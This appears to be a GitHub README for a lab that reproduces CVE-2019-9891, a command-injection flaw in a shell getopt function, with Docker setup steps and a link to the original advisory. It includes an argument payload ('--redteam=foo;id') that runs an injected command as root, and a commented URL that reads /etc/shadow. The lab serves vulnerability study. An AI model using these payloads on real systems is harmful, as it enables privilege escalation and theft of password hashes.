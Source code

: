 # CVE-2019-9891

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9891>

## PoC / Exploit
* <https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-007/-code-execution-via-insecure-shell-function-getopt-simple>
 

## Environment used

* Ubuntu 18.04.4 LTS

## Reproduction 

* Server
    - Docker version
        ```shell script
        sudo docker build -t cve-2019-9891 . 
        sudo docker run -p8022:22 -it cve-2019-9891
        ```
      
    - Script version
        ```shell script
        sudo bash installation.sh 
        ```    
* Client
    ```shell script
    bash login.sh
    ```
  After login run `sudo /usr/local/sbin/cleanup.sh '--redteam=foo;id'` and you'll see the result of *id* command as root.  



[comment]: <> (https://localhost:10000/file/show.cgi/etc/shadow)